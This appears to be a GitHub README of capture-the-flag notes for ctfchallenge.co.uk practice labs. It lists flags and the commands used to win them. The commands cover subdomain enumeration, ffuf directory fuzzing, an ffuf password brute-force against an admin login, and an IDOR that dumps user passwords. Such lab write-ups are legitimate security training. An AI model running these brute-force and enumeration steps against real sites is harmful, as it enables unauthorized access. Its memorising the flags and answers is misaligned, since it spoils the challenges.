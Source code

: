 # ctfchallenge_co_uk


# target: vulnerable website for ctf(ctfchallenge.co.uk)

## easy | vulnbegin | 9 flags

### cookie used during automation: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9


### 4-flag : 
robots.txt --> http://www.vulnbegin.co.uk/secret_d1rect0y/ -->
```[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]```

tools used and documentation:
#### nslookup -type=any vulnbegin.co.uk 8.8.8.8
The above command will query the DNS server for any default A,TXT,NS,SOA,SPF records. You will see from the results there is a TXT record with a flag.

### 1-flag: ```[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]```

sublist3r -d vulnbegin.co.uk

The above query uses OSINT to discover domain names from various search engines and other data resources, from the result you will find an obscure subdomain if you visit it this will show you a flag

result:
server.vulnbegin.co.uk

v64hss83.vulnbegin.co.uk

### 3-flag 
```[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]``` on server.vulnbegin.co.uk
 
 ### 2-flag from sublister : ```[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]```


dnsrecon for finding subdomains using brute force
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt


content discovery using ffuf:
ffuf -p 0.1 -t 1 -w ~/wordlists/content.txt -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -u http://www.vulnbegin.co.uk/FUZZ


in this case username was admin but the response code is 200 for both valid and invalid requests:
to filter out 200 requets i used command:


ffuf -p 0.1 -t 1 -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200





### 5-flag 	```[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]```





### 6-flag from brute forcing the directry or it can be achieved using ffuf
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"```[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}```


### 7-flag from adding X-Token we got from cpanel/env 
{"messaged":"User Authenticated","flag":```"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"```}


### 8-flag 
"flag":```"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]"```,

### 9-flag after indirect object reference for user 5 
```[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]```


# vulnlawyers | easy | target:vulnlawyers.co.uk | 6 flags

#### cookie used during fuzzing ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9

subdomain from sublister:
www.vulnlawyers.co.uk
data.vulnlawyers.co.uk
### flag-1
```[^FLAG^E78DEBBFDFBEAFF1336B599B0724A530^FLAG^]```



### flag-2  in the redirect 302 request when login --> denied
where response look like
```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 05 Jul 2021 18:09:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9; expires=Wed, 04-Aug-2021 18:09:09 GMT; Max-Age=2592000; path=/; domain=.vulnlawyers.co.uk
Location: /denied
Content-Length: 1119

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>VulnLawyers - Old Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
    <link href="/template-manager/style.css" rel="stylesheet">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <h1 style="padding-top:100px;text-align: center;color: #060505;letter-spacing: -1px;font-weight: bold">VulnLawyers</h1>
            <h3 class="text-center">We'll win that case!</h3>
        </div>
    </div>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-info">
                <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
            </div>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```

```[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]```

hint from flag-2 : /lawyers-only 

## flag-3 from data.vulnlawyers.co.uk/users after fuzzing
```
{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk"}],"flag":"[^FLAG^25032EB0D322F7330182507FBAA1A55F^FLAG^]"}
```

### flag-4 after brute force from intruder 
email : jaskaran.lowe@vulnlawyers.co.uk password: summer

```
[^FLAG^7F1ED1F306FC4E3399CEE15DF4B0AE3C^FLAG^]

```

### flag-5 after lot of methods i found suspicious link in js source code fetching info from /lawyers-only-profile-details/4
from that i got all users endpoint containing the credentials
```
1-{"id":1,"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk","password":"Rk@c7#U3@2r%0f"}
2-{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk","password":"q2V944&#2a1^3p","flag":"[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]"}
3-{"id":3,"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk","password":"Sn06#ibx@lGPG7"}
5-{"id":5,"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk","password":"A^66vqhOU!e2ZV"}
```
```
[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]
```
### flag-6 admin login
```
[^FLAG^B38BAE0B8B804FCB85C730F10B3B5CB5^FLAG^]
```


## vulnforum | medium | 4 flags

cookie for fuzzing
ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9
